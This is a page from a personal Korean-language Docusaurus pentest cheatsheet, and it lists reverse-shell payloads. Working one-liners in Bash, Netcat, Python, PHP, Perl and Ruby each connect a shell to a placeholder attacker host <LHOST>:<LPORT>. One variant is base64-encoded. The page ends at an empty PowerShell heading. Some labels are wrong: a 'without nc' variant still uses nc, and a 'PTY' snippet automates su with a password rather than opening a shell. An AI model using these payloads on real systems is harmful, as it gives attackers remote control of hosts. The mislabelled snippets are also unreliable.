

repository: naaamgi/my-docusaurus-page · page: cheatsheet/payloads/reverse-shells/index.html · generator: docusaurus

---
sidebar_position: 1
---

# Reverse Shells

다양한 언어로 작성된 Reverse Shell 페이로드입니다.

## Bash

```bash
# 기본
bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1

# -c 옵션
bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'

# Base64 인코딩
echo -n '/bin/bash -c "/bin/bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1"' | base64
echo '<BASE64>' | base64 -d | bash
```

## Netcat

```bash
# -e 옵션
nc -e /bin/sh <LHOST> <LPORT>
nc -e /bin/bash <LHOST> <LPORT>

# mkfifo
mkfifo /tmp/shell; nc <LHOST> <LPORT> 0</tmp/shell | /bin/sh >/tmp/shell 2>&1; rm /tmp/shell

# nc 없이
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LHOST> <LPORT> >/tmp/f
```

## Python

```python
# Python 2
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PTY
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","user"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"password\n");time.sleep(0.1);print os.read(master,1024);'

# 파일로 저장
echo 'python3 -c '"'"'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"'"'' > shell.sh
```

## PHP

```php
# 한 줄
php -r '$sock=fsockopen("<LHOST>",<LPORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

# 파일
<?php
$sock=fsockopen("<LHOST>",<LPORT>);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

## Perl

```perl
perl -e 'use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("<LHOST>",<LPORT>).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## PowerShell
